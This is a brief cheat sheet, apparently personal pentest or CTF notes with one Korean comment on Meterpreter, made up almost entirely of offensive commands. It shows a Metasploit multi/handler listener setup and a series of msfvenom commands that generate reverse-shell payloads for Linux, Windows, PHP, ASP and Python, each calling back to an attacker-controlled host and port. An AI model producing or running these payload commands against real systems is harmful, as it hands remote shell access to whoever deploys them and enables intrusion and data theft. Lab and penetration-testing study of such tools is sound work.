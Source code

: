 # Meterpreter(메터프리터)는 Metasploit 에서 제공하는 “고급 원격 제어 쉘”로, 단순 셸보다 파일·프로세스·메모리 조작 같은 많은 기능이 미리 준비된 형태입니다.

# shell change

shell

# setting

msf6 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/reverse_php
msf5 exploit(multi/handler) > set lhost 10.0.2.19
msf6 exploit(multi/handler) > set lport 7777
msf6 exploit(multi/handler) > show options

# output executable file on linux

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf

# Windows

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe

# PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php

# ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp

# Python

msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
